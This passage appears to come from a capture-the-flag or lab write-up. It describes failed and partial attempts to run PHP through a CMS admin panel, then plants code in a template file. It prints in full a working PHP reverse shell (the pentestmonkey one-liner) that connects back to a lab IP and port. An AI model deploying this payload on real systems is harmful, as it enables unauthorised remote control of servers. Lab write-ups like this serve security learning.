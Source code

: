 That did not work at all. The code of the blog post is not executed as php code, even if it is. We need to find how to upload a file possibly.

[Googling... Please wait]


We try to add php file extension as one of the permitted formats for uploading media:

![We try to add php as a valid upload format](https://i.imgur.com/GOiuW3p.png)

That did not work either...


Another thing we can try is using the templates administration panel, with any of the templates we find a file to edit and include our exploit.
This seems to kind of work, we do get a connection back to our netcat listener but it closes right after and does not seems to respond to any command.

![Using a template file with explioit and preview feature](https://i.imgur.com/Y1MLMpv.png)

Since this kid of works, I'd like to try another variation of a PHP Rev shell, lets see what we find:


I found [this interesting site](https://alamot.github.io/reverse_shells/), which has a php one-liner from pentestmonkey that could try, looks kind of similar to the one we have. We need to update IP and PORT. Then we do the same as before, using any php of a template in the templates manager we add our code and save. Then we trigger the "Preview Template" as before.


```php
// pentestmonkey one-liner ^_^
<?php set_time_limit (0); $VERSION = "1.0"; $ip = "10.13.0.34"; $port = 2112; $chunk_size = 1400; $write_a = null; $error_a = null; $shell = "uname -a; w; id; /bin/bash -i"; $daemon = 0; $debug = 0; if (function_exists("pcntl_fork")) { $pid = pcntl_fork(); if ($pid == -1) { printit("ERROR: Cannot fork"); exit(1); } if ($pid) { exit(0); } if (posix_setsid() == -1) { printit("Error: Cannot setsid()"); exit(1); } $daemon = 1; } else { printit("WARNING: Failed to daemonise.  This is quite common and not fatal."); } chdir("/"); umask(0); $sock = fsockopen($ip, $port, $errno, $errstr, 30); if (!$sock) { printit("$errstr ($errno)"); exit(1); } $descriptorspec = array(0 => array("pipe", "r"), 1 => array("pipe", "w"), 2 => array("pipe", "w")); $process = proc_open($shell, $descriptorspec, $pipes); if (!is_resource($process)) { printit("ERROR: Cannot spawn shell"); exit(1); } stream_set_blocking($pipes[0], 0); stream_set_blocking($pipes[1], 0); stream_set_blocking($pipes[2], 0); stream_set_blocking($sock, 0); printit("Successfully opened reverse shell to $ip:$port"); while (1) { if (feof($sock)) { printit("ERROR: Shell connection terminated"); break; } if (feof($pipes[1])) { printit("ERROR: Shell process terminated"); break; } $read_a = array($sock, $pipes[1], $pipes[2]); $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null); if (in_array($sock, $read_a)) { if ($debug) printit("SOCK READ"); $input = fread($sock, $chunk_size); if ($debug) printit("SOCK: $input"); fwrite($pipes[0], $input); } if (in_array($pipes[1], $read_a)) { if ($debug) printit("STDOUT READ"); $input = fread($pipes[1], $chunk_size); if ($debug) printit("STDOUT: $input"); fwrite($sock, $input); } if (in_array($pipes[2], $read_a)) { if ($debug) printit("STDERR READ"); $input = fread($pipes[2], $chunk_size); if ($debug) printit("STDERR: $input"); fwrite($sock, $input); } } fclose($sock); fclose($pipes[0]); fclose($pipes[1]); fclose($pipes[2]); proc_close($process); function printit ($string) {  if (!$daemon) { print "$string\\n"; } } ?>

```

